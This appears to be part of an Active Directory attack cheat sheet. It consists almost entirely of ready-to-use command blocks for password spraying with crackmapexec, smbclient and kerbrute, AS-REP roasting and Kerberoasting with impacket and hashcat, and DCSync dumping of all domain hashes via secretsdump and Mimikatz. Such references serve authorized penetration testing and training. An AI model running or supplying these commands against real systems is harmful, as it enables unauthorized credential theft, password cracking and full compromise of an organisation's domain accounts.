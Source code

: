 ## Authentication Attacks

### Password Spraying
```bash
# CrackMapExec password spray
crackmapexec smb <target> -u users.txt -p 'Password123!'
crackmapexec smb <target> -u users.txt -p passwords.txt --continue-on-success

# Impacket SMB spray
for user in $(cat users.txt); do echo "Testing $user"; smbclient -L //<target> -U "$user%Password123!" 2>/dev/null && echo "[+] Valid: $user:Password123!"; done

# Kerberos password spray (if port 88 open)
kerbrute passwordspray -d <domain> users.txt Password123!
```

### ASREPRoast Attack
```bash
# Find users with "Do not require Kerberos preauthentication"
impacket-GetNPUsers <domain>/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt

# With valid domain credentials
impacket-GetNPUsers <domain>/<username>:<password> -request -format hashcat -outputfile asrep_hashes.txt

# PowerShell (from domain-joined machine)
Get-DomainUser -PreauthNotRequired -Verbose

# Crack hashes
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt --force
```

### Kerberoasting
```bash
# Request service tickets
impacket-GetUserSPNs <domain>/<username>:<password> -request -format hashcat -outputfile kerberoast_hashes.txt

# Target specific SPN
impacket-GetUserSPNs <domain>/<username>:<password> -request-user <target-user> -format hashcat

# PowerShell (from domain-joined machine)
Add-Type -AssemblyName System.IdentityModel
setspn -Q */*

# Crack service tickets
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt --force
```

### DCSync Attack (High Privileges Required)
```bash
# Dump all domain hashes
impacket-secretsdump <domain>/<username>:<password>@<dc-ip>

# Dump specific user
impacket-secretsdump <domain>/<username>:<password>@<dc-ip> -just-dc-user <target-user>

# PowerShell (Mimikatz)
lsadump::dcsync /domain:<domain> /user:<target-user>
```
